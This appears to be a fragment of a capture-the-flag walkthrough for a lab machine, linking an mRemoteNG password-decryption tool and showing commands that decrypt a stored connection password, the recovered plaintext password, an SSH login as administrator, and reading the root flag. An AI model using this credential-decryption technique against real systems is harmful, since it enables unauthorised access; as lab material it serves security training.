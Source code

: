 https://github.com/haseebT/mRemoteNG-Decrypt
```
python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2

ssh administrator@10.10.10.134

cd desktop

more root.txt
```

